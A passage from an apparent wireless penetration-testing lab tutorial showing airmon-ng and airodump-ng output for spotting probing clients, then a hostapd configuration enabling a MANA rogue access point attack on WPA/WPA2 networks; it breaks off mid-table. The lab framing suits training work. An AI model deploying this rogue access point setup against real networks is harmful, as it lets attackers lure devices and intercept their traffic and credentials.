 Found 4 processes that could cause trouble.
Kill them using 'airmon-ng check kill' before putting
the card in monitor mode, they will interfere by changing channels
and sometimes putting the interface back in managed mode

    PID Name
    184 avahi-daemon
    204 wpa_supplicant
    208 avahi-daemon
    231 NetworkManager

PHY	Interface	Driver		Chipset

phy1	wlan0		htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211

		(mac80211 monitor mode vif enabled for [phy1]wlan0 on [phy1]wlan0mon)
		(mac80211 station mode vif disabled for [phy1]wlan0)
phy3	wlan1		htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211
phy4	wlan2		htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211
phy5	wlan3		htb80211_chipset	HTB ChipSet of 802.11 radio(s) for mac80211
</code></pre>
<p>Once our interface is in monitor mode, we can use <code>airodump-ng</code> to scan for available Wi-Fi networks and their associated clients.</p>
<pre><code class="language-shell-session">[!bash!]$ airodump-ng wlan0mon 

CH  8 ][ Elapsed: 6 s ][ 2024-11-29 17:37 

BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID


BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
(not associated)   8A:EB:7E:F9:15:3E  -49    0 - 1      0        2         HackMe                                      
(not associated)   3A:00:0A:1B:21:24  -49    0 - 1     34        4         HackTheWireless                                              
</code></pre>
<p>From the output above, we observe two clients probing for access points named "HackMe" and "HackTheWireless." However, since these access points are not in range, the clients are unable to establish a connection.
The client probing for "HackMe" has the MAC address 8A:EB:7E:F9:15:3E, while the client probing for "HackTheWireless" has the MAC address 3A:00:0A:1B:21:24.</p>
<hr/>
<h3>MANA Attack on WPA/WPA2 Networks</h3>
<p>To execute the MANA attack, we create a configuration file named <code>hostapd.conf</code>.</p>
<pre><code class="language-configuration">interface=wlan1
driver=nl80211
hw_mode=g
channel=1
ssid=Anything
wpa=2
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP CCMP
wpa_passphrase=Anything

# Mana Configuration
enable_mana=1
mana_loud=1
</code></pre>
<p>In this file, we specify many parameters. These parameters can be broken down like the following:</p>
<table>
<thead>
<tr>
<th>Item</th>
<th>Description</th>
</tr>
</thead>
<tbody>